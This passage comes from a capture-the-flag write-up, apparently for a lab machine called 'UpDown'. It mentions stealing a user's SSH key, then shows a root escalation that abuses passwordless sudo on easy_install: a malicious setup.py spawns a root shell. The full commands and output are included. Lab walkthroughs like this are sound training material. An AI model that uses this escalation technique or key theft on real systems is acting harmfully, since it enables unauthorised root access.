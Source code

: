 I will steal the user SSH key and jump to a more stable shell, by the way the user flag is under `/home/developer/user.txt`.

## Pwn time!

Getting `root` was pretty easy, the user is allowed to execute `easy_install` as `root` without any password:

```bash
developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install
```

[Gtfobins](https://gtfobins.github.io/){:target="_blank"} is your friend:

```bash
developer@updown:~$ TF=$(mktemp -d)
developer@updown:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
developer@updown:~$ sudo easy_install $TF
WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing tmp.M1s5pktFwH
Writing /tmp/tmp.M1s5pktFwH/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/tmp.M1s5pktFwH/egg-dist-tmp-lsOvGP
# id
uid=0(root) gid=0(root) groups=0(root)
# bash
root@updown:/tmp/tmp.M1s5pktFwH#
```

The flag is under `/root/root.txt`.
